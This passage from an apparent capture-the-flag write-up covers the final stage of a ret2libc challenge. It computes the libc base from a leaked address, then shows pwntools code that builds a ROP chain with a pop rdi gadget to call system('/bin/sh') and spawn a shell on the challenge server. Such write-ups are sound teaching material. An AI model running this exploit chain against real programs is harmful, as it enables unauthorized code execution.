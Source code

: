 !["leaking libc"](./images/libc_leak.png "leaking libc")

The new address we are leaking still looks like it could be a libc address. We can calculate and store the base of libc by subtracting the offset between the leaked address and the base of libc. This works because, as mentioned multiple times, even though ASLR is activated, the offsets between the addresses in each memory chunk is constant. Running the script we have so far and attaching gdb (either with "gdb -p *pid*" or gdb.attach(p) in python) we can calculate that the difference between our leak and the base of libc found with `info process mappings` is 0x620d0. The following code stores and logs this.

```py
libc.address = libc_leak - 0x620d0
log.success(f"{hex(libc.address)=}")
```

You can sanity check this by running the script up until this point and matching the base adress of libc in the process mappings in gdb with the last address logged by the python script, as I showed previously with the base of the executable.

Since we called main at the end of the last ropchain, we have another input so the interesting part of the solution is behind us. We can use the base of libc address and the previous way to get to the instruction pointer to call `system("/bin/sh")`. I found a pop rdi; ret gadget in the libc at the 0x2a3e5 offset, which is used to place "/bin/sh" in rdi. The following code does what we need and looks like the end of most reet2libc challenges.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]
pop_rdi = libc.address + 0x2a3e5

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))
log.info("pop_rdi: "+ str(hex(pop_rdi)))

third_payload = b"B"*offset
third_payload += p64(pop_rdi)
third_payload += p64(binsh)
third_payload += p64(ret)
third_payload += p64(libc_system)
third_payload += p64(libc_exit)

p.recvuntil(b"Echo2")
p.sendline(str(sending + 8*5).encode())
p.sendline(third_payload)
```

We needed to make sure to add 8*5 to the size were sending, because we're sending 5 addresses now. When we run the full script we get a shell on the server and we can claim our flag.
